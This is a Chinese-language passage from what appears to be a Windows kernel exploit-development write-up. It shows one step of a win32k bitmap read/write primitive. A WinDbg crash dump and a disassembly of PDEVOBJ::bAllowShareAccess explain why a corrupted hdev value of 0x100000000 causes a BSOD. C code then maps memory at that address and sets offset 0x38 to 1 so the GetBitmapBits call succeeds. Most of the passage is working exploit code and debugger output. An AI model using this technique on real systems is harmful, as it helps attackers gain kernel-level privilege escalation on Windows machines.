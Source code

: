   
此时编译运行会出现BSOD错误，错误信息如下，可以看到是错误是在调用GetBitmapBits函数的时候，在bAllowShareAccess中会对rax偏移0x38处的内容进行读取操作，而此时该地址的内存是无效的。rax等于BitMap对象的hdev，所以这个错误是因为内存写入的时候，修改了hdev产生的。  
```
rax=0000000100000000 rbx=ffffd000b6c019c8 rcx=ffffd000b6c019d0
rdx=ffffd000b6c019d0 rsi=fffff9014511dbd0 rdi=0000000100000000
rip=fffff9614a5a2553 rsp=ffffd000b6c018e8 rbp=ffffd000b6c01a20
 r8=fffff9614a4e7e58  r9=0000000000000000 r10=7ffff9014000b588
r11=7ffffffffffffffc r12=ffffd000b6c01b18 r13=0000000003ff3d58
r14=0000000000000000 r15=0000000000001000
iopl=0         nv up ei pl nz na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
win32kbase!PDEVOBJ::bAllowShareAccess+0x3:
fffff961`4a5a2553 8b5038          mov     edx,dword ptr [rax+38h] ds:002b:00000001`00000038=????????

STACK_TEXT:  
win32kbase!PDEVOBJ::bAllowShareAccess+0x3
win32kbase!NEEDGRELOCK::vLock+0x21
win32kfull!GreGetBitmapBits+0xf6
win32kfull!NtGdiGetBitmapBits+0xab

1: kd> dd 0000000100000000 + 0x38
00000001`00000038  ???????? ???????? ???????? ????????
00000001`00000048  ???????? ???????? ???????? ????????
00000001`00000058  ???????? ???????? ???????? ????????
00000001`00000068  ???????? ???????? ???????? ????????
00000001`00000078  ???????? ???????? ???????? ????????
00000001`00000088  ???????? ???????? ???????? ????????
00000001`00000098  ???????? ???????? ???????? ????????
00000001`000000a8  ???????? ???????? ???????? ????????
```  
  
  
在错误函数bAllowShareAccess中，会将hdev + 0x38的地址取出并判断其是否为1，如果为1，则函数返回0，GetMapbitsBits函数就将调用成功。  
```
.text:00000001C0012550 ; __int64 __fastcall PDEVOBJ::bAllowShareAccess(PDEVOBJ *__hidden this)
.text:00000001C0012550                 mov     rax, [rcx]
.text:00000001C0012553                 mov     edx, [rax+38h]
.text:00000001C0012556                 test    dl, 1
.text:00000001C0012559                 jz      short loc_1C00125C1
                    // 省略部分代码
.text:00000001C00125C1 loc_1C00125C1:                          
.text:00000001C00125C1                                         
.text:00000001C00125C1                 xor     eax, eax
.text:00000001C00125C3                 retn
.text:00000001C00125C3 ?bAllowShareAccess@PDEVOBJ@@QEAAHXZ endp
```  
  
  
根据上面的调试可以看到，hdev的值被修改为0x1 0000 0000。所以要避开上面的BSOD错误，只要在0x1 0000 0000处申请内存，且将0x1 0000 0038的值修改为1即可，相应代码如下：  
```
PBYTE pBuffer = (PBYTE)VirtualAlloc((PVOID)0x100000000,
                    0x1000,
                    MEM_COMMIT | MEM_RESERVE,
                    PAGE_READWRITE);
if (!pBuffer)
{
    ShowError("VirtualAlloc", GetLastError());
    bRet = FALSE;
    goto exit;
}

*(pBuffer + 0x38) = 1;
```  
  